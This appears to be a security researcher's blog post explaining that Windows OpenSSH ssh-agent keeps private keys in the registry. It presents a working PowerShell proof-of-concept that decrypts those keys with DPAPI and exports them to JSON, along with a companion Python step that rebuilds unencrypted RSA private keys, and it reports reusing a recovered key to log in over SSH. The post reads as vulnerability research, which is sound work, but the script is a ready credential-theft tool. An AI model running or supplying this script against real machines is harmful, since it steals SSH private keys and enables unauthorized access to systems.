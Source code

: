 The first is a Powershell script (`extract_ssh_keys.ps1`) which queries the Registry for any saved keys in `ssh-agent`. It then uses DPAPI with the current user context to unprotect the binary and save it in Base64. Since I didn't even know how to start parsing Binary data in Powershell, I just saved all the keys to a JSON file that I could then import in Python. The Powershell script is only a few lines:

```powershell
$path = "HKCU:\Software\OpenSSH\Agent\Keys\"

$regkeys = Get-ChildItem $path | Get-ItemProperty

if ($regkeys.Length -eq 0) {
    Write-Host "No keys in registry"
    exit
}

$keys = @()

Add-Type -AssemblyName System.Security;

$regkeys | ForEach-Object {
    $key = @{}
    $comment = [System.Text.Encoding]::ASCII.GetString($_.comment)
    Write-Host "Pulling key: " $comment
    $encdata = $_.'(default)'
    $decdata = [Security.Cryptography.ProtectedData]::Unprotect($encdata, $null, 'CurrentUser')
    $b64key = [System.Convert]::ToBase64String($decdata)
    $key[$comment] = $b64key
    $keys += $key
}

ConvertTo-Json -InputObject $keys | Out-File -FilePath './extracted_keyblobs.json' -Encoding ascii
Write-Host "extracted_keyblobs.json written. Use Python script to reconstruct private keys: python extractPrivateKeys.py extracted_keyblobs.json"
```

I heavily borrowed the code from `parse_mem_python.py` by soleblaze and updated it to use Python3 for the next script: `extractPrivateKeys.py`. Feeding the JSON generated from the Powershell script will output all the RSA private keys found:

![Extracting private keys](/images/2018/05/private_keys_powershell.png)

These RSA private keys are **unencrypted**. Even though when I created them I added a password, they are stored unencrypted with `ssh-agent` so I don't need the password anymore.

To verify, I copied the key back to a Kali linux box and verified the fingerprint and used it to SSH in!

![Using the key](/images/2018/05/ssh_kali.png)

## Next Steps
Obviously my PowerShell-fu is weak and the code I'm releasing is more for PoC. It's probably possible to re-create the private keys entirely in PowerShell. I'm also not taking credit for the Python code - that should all go to soleblaze for his original implementation.
